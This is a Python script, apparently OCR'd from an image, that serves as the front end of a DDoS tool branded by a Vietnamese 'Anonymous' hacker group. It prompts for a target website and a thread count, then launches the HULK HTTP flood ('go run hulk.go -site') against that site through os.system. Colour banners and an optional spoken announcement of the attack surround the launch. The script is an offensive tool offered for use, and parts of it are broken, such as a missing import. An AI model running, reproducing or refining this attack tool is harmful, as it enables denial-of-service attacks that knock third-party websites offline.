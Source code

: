 import os
import pyttsx3
import sys
import platform
def say_stuff(stuff_to_say):
    engine = pyttsx3.init()
    engine.say(str(stuff_to_say))
    engine.runAndWait()
print(Fore.GREEN + Back.BLACK)
if str(platform.system()) == 'Linux':
    os.system('figlet Hồ Xuân Bình - DDoS Attack')
else:
    os.system('pyfiglet Ho Xuan Binh - Go To VIET NAM')

print(Back.GREEN + Fore.GREEN +'[+] Anonymous DDoS tool by' + Fore.RED + 'Nhóm HACKER Đến Từ Việt Nam                              ') 
print(Back.GREEN + Fore.BLACK + '[+] Tool DDoS Wed V1                                             ')
print(Back.BLACK +Fore.GREEN + '[+] Tool DDoS Attack Chạy Bằng Kali - Python, Tool do Nhà Phát Triển Hồ Xuân Bình Sáng Lập                         ')
print(Fore.YELLOW + '[+] Chúng tôi vô danh, chúng tôi là một quân đoàn, chúng tôi không tha thứ, chúng tôi không quên                            ')
print(Fore.GREEN + '[+] Bắt đầu Công cụ AnonPAK DoS với 1024 Chủ đề cơ sở làm Thay đổi mặc định bên dưới khi Bắt buộc           ')
print(Fore.BLUE + 'Tác giả: ' + Fore.GREEN + 'Hồ Xuân Bình X Developer')
print(Fore.RED + 'Youtube: ' + Fore.GREEN + 'https://www.youtube.com/channel/UChcwlqpx3Cz1LAG1Rc2Hz6w')
print(Fore.YELLOW + 'Facebook: ' + Fore.GREEN + 'Lai Hồ Xuân Bình')
print('Your OS:'+ Fore.RED + str(platform.system())+Fore.GREEN)
try:
    threads = input('[+] NHẬP SỐ' + Fore.BLUE + ' THREADS ' + Fore.GREEN + 'FOR DDoS >>>')
    site = input(Fore.BLUE + '[+] Nhập trang web mà bạn muốn' + Fore.RED + ' DDoS ' + Fore.GREEN + '>>>')
    colab_status = input(Fore.YELLOW + 'Bạn có DDoS với Google Colab không [Y/N]')
    attack_severity = input('[+] Enter'+ Fore.RED +' 1'+Fore.GREEN+' Đối với một rất nhỏ'+Fore.RED+' Target'+Fore.GREEN+' Giống như một thiết bị and' + Fore.YELLOW + ' 2 ' + Fore.GREEN +' for a ' + Fore.YELLOW + 'Website '+ Fore.GREEN + ' >>>')
    if 'Y' == colab_status:
        print('OK, Bây giờ không sử dụng Text-to-Speech để làm cho cuộc tấn công của bạn trông như thế nào' + Fore.RED+ ' Cool' + Fore.GREEN)
    if 'y' == colab_status:
        print('OK, Bây giờ không sử dụng Text-to-Speech để làm cho cuộc tấn công của bạn trông như thế nào' + Fore.RED+ ' Cool' + Fore.GREEN)
    if 'n' == colab_status:
        if str(platform.system()) == 'Linux':
            print('[+] Khi bạn đang sử dụng Linux, Không, Chuyển văn bản thành giọng nói')
        else:
            say_stuff("Tấn công trang web mục tiêu của bạn {0} with {1} Threads".format(site, threads))
    if 'N' == colab_status:
        if str(platform.system()) == 'Linux':
            print('[+] As you are on Linux, No, Text-to-Speech')
        else:
            say_stuff("Tấn công trang web mục tiêu của bạn {0} with {1} Threads".format(site, threads))

    print('[+] Executing Command as Follows')
    print(Fore.GREEN +'Hồ Xuân Bình x Developer={0} go run hulk.go -site {1}'.format(threads,site))
    if 'Windows' in str(platform.system()):
        os.system('go run hulk.go -site {0}'.format(site))
    else:
        os.system('Hồ Xuân Bình x Developer={0} go run hulk.go -site {1}'.format(threads,site))
    print(Back.BLACK + Fore.GREEN)
    
except:
    print('[+] Quá trình thực thi bị dừng với mã lỗi 0, Cài đặt GoLang hoặc Internet của bạn không hoạt động bình thường')
    print('[+] Cài đặt phụ thuộc')
    os.system('python3 Install_Dependancies.py')
    os.system('python Install_Dependancies.py')
    os.system('py Install_Dependancies.py')

